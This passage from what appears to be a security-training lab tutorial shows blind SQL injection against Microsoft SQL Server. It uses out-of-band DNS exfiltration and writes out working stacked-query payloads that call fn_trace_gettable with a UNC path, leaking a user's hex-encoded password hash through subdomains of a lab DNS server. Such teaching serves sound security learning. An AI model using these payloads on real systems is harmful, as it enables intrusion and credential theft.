 First, let's carry a test attack to ensure the attacks works as expected, as this is an essential step when performing any blind attack, since it is more difficult to identify potential issues later on. Since we are not interested in doing a `Boolean SQL Injection` attack, we will not be using `AND` this time, and will simply inject our above query with a `maria';`:

```sql
maria';DECLARE @T VARCHAR(1024); SELECT @T=(SELECT 1234); SELECT * FROM fn_trace_gettable('\\'+@T+'.blindsqli.academy.htb\x.trc',DEFAULT);--+-

```

Once we send the above query, we should get `taken` confirming that the query did run correctly:
![dns_oob_1234](6Kgn0hfDowv9.jpg)

Now, we need to check the DNS logs to confirm that a DNS request was sent with the `1234` sub-domain. To do so, we will go to the `Logs` tab in the DNS server, then `Query Logs`, and finally hit `Query`. As we can see, we did indeed get a couple of hits with the above data:
![dns_server_log_1234](4DHdpEG2Di2C.jpg)

Instead of `(SELECT 1234)`, we want to capture the password hash of `maria`. So, we will replace the query defined within `@T` to the follow:

```sql
SELECT password from users WHERE username="maria";

```

**Note:** We should always ensure that whatever query we choose only returns `1` result, or our attack may not work correctly and we would need to `concatenate` all results into a single string.

Of course, we still need to encode the result, as it may contain non-ASCII characters which would not comply with DNS rules and will break our attack. So, we replace the `@T` declaration with the following (as shown earlier):

```sql
DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) from users WHERE username="maria"; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63);

```

Now, we can stack both queries, while also replacing `@T` in the domain with `@A` and `@B`, and our final injection payload will look as follows:

```sql
maria';DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) from users WHERE username='maria'; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_trace_gettable('\\'+@A+'.'+@B+'.blindsqli.academy.htb\x.trc',DEFAULT);--+-

```

We run the query, and get `taken` confirming it executed correctly:
![dns_oob_full_query](6DNMJy8XgsBE.jpg)

Finally, we check the DNS logs again, and indeed we do find our encoded result:
![dns_server_log_full_query](iAk8gdjj2K6D.jpg)

